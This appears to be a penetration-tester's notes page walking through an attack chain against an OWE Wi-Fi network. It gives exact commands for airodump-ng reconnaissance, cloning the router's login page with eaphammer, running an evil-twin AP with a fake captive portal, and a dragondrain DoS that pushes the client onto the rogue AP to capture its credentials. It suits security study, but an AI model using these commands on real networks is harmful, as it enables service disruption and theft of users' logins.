







# Example OWE Attack Chain
## Find a Target AP
#### 1. Monitor the network
First, we need to find an AP that is using OWE. We can do this by using `airodump-ng` to monitor the network:
```bash
sudo airodump-ng wlan0mon -w ./owe --manufacturer --mfp --band abg
```
- `--mfp`: will show a 1, 2, or 0. 2 means the network is using MFP
From this picture, we can see that `wifi-gratis` is an OWE network which *has MFP enabled*. The network currently has one client.

Because MFP is enabled *we won't be able to perform [a deauthentication attack](../PSK-attacks/handshake-attack.md#2.1%20Force%20traffic)* against the client. That means all we can do is set up a [evil twin](../PSK-attacks/evil-twin.md) and try to deauth the client with a [dragondrain](../SAE-attacks/dragondrain.md) attack on the AP.
#### 3. Check for a captive portal
Next, we want to check if there is captive portal. If there is one, then we can possibly do some [captive portal](../OPN-attacks/captive-portal-bypass.md) attacks:
##### a. `wpa_supplicant` config file
First, create the following configuration file at `/owe.conf`:
```bash
network={
    ssid="wifi-gratis"
    key_mgmt=OWE
    proto=RSN
    pairwise=CCMP
    group=CCMP
    ieee80211w=2
}
```
##### b. Connect with `wpa_supplicant`
Next, use the configuration file to connect:
```bash
sudo wpa_supplicant -c owe.conf -i wlan2
```
##### c. Request IP address
Once connected, we need to request an IP address from [DHCP](../../networking/protocols/DHCP.md):
```bash
dhclient wlan2 -v
```

##### d. Visit the AP in the browser
Once you know your IP address, you can access the AP/router's web interface by visiting the *default gateway* (which is usually the `x.x.x.1` address and is USUALLY assigned to the router) in a browser:

By visiting the router in the browser, we can see that *we can access the router directly without a captive portal* (this is the login page for the router, not for a captive portal).
## Attack
Because this is an OWE network, we can't hope to capture credentials for this portal just by cracking the traffic's encryption. Instead, our best bet is to *set up a rogue AP* and then *mimic this login portal* and hope that a client connects and enters their credentials.
#### 1. Set up the rogue AP
##### a. Use `eaphammer` to clone the portal
For our rogue AP, we want to *mimic the login page* we saw on the router's web portal. We can use `eaphammer` to do that:
> [!Note]
> Stay connected to the network while running `eaphammer`

```bash
python eaphammer --create-template --name owe --url http://192.168.20.1/login.php
```
##### b. Use `eaphammer` to create the rogue AP
Next, we need to set up the rogue AP that we want out client to auth to once our DDoS attack forces the client to disconnect from `wifi-gratis`
> [!Note]
> Disconnect from the target network (`wifi-gratis` in this case) before setting up the rogue AP 

```bash
python3 eaphammer -i wlan3 --auth owe --essid wifi-gratis --captive-portal --hw-mode a -c44 --portal-template owe
```

#### 2. Force the client to connect (dragondrain)
Since [MFP](../../networking/wifi/MFP.md) is *required* in this network (802.11w), we can't perform a standard [deauth attack](../PSK-attacks/handshake-attack.md#2.1%20Force%20traffic) against the client. Instead, we can *DoS the AP* using the [dragondrain](../SAE-attacks/dragondrain.md) attack. 
##### a. Monitor the network to watch for connection
Before running our DoS attack, we can run `airodump-ng` so that we can watch for new clients connecting to our network. In the following screenshot, the original (target) AP is highlighted in red (including its one client). Our rogue AP, running via `eaphammer`, is highlighted in blue:
Once we run the DoS, we're hoping to see that the client currently connected to the real AP (station = `64:32:A8:FA:21:F4`) is disconnected and reconnects to our rogue AP (BSSID = `00:11:22:33:44:00`).
##### b. Running the DoS
We're going to use the [`dragondrain-and-time`](https://github.com/vanhoefm/dragondrain-and-time) tool:
```bash
./dragondrain -d wlan1 -a F0:9F:C2:71:AF:2F -b 54 -n 20 -c 44 -i 3000 -f
```
If it works, you should see the following output from the tool and in `airodump-ng`:
You should also see that `eaphammer` is logging HTTP traffic from the connecting user:

#### 3. Connect with the password
Now you can reconnect to the target AP and use the password and username to login.

